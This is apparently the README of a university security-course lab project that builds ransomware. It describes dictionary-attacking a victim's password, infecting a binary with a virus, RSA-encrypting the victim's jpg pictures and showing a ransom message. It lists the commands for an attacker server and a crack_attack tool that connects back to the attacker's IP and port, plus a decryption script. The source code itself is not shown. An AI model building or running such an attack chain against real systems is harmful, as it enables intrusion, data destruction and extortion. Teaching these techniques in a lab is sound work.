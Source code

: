 # Ransomware Propagation and Payload

## Description
- Crack the victim's password by launching a dictionary attack (assume that the username is known as **csc2023**)
- Infect the file **/home/csc2023/cat** by embedding the compression virus
- Encrypt all picture files in **jpg** in **/home/csc2023/Pictures** via RSA
- Pop up a window showing a message requesting ransom

## Usage 
### Build
Perpare two machines, attacker and victim, and run the command in the attacker machine.
```bash
$ make
```

### Ransomware Progration and Payload
Set up the attacker machine via the command in attacker machine.
```bash
$ ./attacker_server <Attacker port>
```
Run the command in attacker machine to crack the victim's password and infect the file **/home/csc2023/cat**.
```bash
$ ./crack_attack <Victim IP> <Attack IP> <Attacker Port>
```
Run **/home/csc2023/cat** file in victim machine and the result is shown below.
![error message](./figures/result.gif)

### Decryption
Decrypt all picture files in **jpg** in **/home/csc2023/Pictures** in victim machine.
```bash
$ ./decrypt.sh
```